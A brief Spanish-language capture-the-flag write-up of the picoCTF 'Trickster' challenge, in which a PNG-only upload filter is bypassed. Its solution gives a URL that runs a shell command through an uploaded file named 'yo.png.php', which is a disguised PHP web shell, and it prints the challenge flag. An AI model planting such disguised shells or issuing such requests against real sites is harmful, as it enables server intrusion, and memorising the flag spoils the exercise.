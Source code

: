 # Trickster

## Objetivo
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance

## Pistas

## Solucion
Explorando descubrimos que usando la siguiente direccion: http://atlas.picoctf.net:62153/uploads/yo.png.php?0=cat%20../GAZWIMLEGU2DQ.txt nos muestra la bandera 
�PNG  /* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548} */

## Notas adicionales

## Referencias